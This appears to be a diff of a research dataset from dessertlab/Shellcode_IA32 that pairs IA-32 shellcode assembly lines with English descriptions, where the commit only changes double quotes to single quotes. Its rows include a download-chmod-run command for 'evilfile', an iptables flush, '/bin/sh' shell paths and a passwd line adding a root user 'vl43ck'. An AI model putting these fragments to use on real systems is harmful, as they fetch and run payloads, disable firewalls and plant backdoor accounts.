

Before and after one commit to dessertlab/Shellcode_IA32, a TSV file: Shellcode_IA32.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

```diff
--- a/Shellcode_IA32.tsv
+++ b/Shellcode_IA32.tsv
@@ -572,3 +572,3 @@ exit:	define exit function
 exit:	define the exit label
-file: db "/sbin/iptables#-f"	define file as the byte string "/sbin/iptables#-f"
+file: db '/sbin/iptables#-f'	define file as the byte string '/sbin/iptables#-f'
 fileaddress:	declare the fileaddress label
@@ -946,3 +946,3 @@ len: equ $-shellcode	declare the len label equal to the length of shellcode
 letter_c db 'c'	allocate a single byte of memory and initialize it to the letter 'c'
-line db "/usr/bin/wget http://127.0.0.1:8080/evilfile && /bin/chmod 777 evilfile && ./evilfile", 0x0a	define line as the byte string "/usr/bin/wget http://127.0.0.1:8080/evilfile && /bin/chmod 777 evilfile && ./evilfile", 0x0a
+line db '/usr/bin/wget http://127.0.0.1:8080/evilfile && /bin/chmod 777 evilfile && ./evilfile', 0x0a	define line as the byte string '/usr/bin/wget http://127.0.0.1:8080/evilfile && /bin/chmod 777 evilfile && ./evilfile', 0x0a
 loader:	declare the loader label
@@ -1905,4 +1905,4 @@ or eax, 0xffffffff	perform the or operation between the eax register and 0xfffff
 output:	declare the output label
-path db "//bin/sh"	define path as the byte string "//bin/sh"
-path db "//bin/sh"	define the byte string path and initialize it to "//bin/sh"
+path db '//bin/sh'	define path as the byte string '//bin/sh'
+path db '//bin/sh'	define the byte string path and initialize it to '//bin/sh'
 path:	declare the path label
@@ -2757,3 +2757,3 @@ shellcode:	declare the shellcode label
 shellcode:	define shellcode label
-shellcode: db "vl43ck:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:vl43ck:/tmp:/bin/bash"	define the array of bytes shellcode and initialize it to vl43ck:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:vl43ck:/tmp:/bin/bash
+shellcode: db 'vl43ck:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:vl43ck:/tmp:/bin/bash'	define the array of bytes shellcode and initialize it to vl43ck:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:vl43ck:/tmp:/bin/bash
 shellcode: db 0x4b,0xf7,0x13,0x59,0xcc,0x8c,0x63,0x5e,0x9f,0x8d,0x99,0x9f,0x1f,0xa4,0x3b,0x6e,0xc6,0x36,0x23	define shellcode as an array of bytes and initialize it to 0x4b,0xf7,0x13,0x59,0xcc,0x8c,0x63,0x5e,0x9f,0x8d,0x99,0x9f,0x1f,0xa4,0x3b,0x6e,0xc6,0x36,0x23
```
Also changed, not shown: 61 edited cells elsewhere in this file.
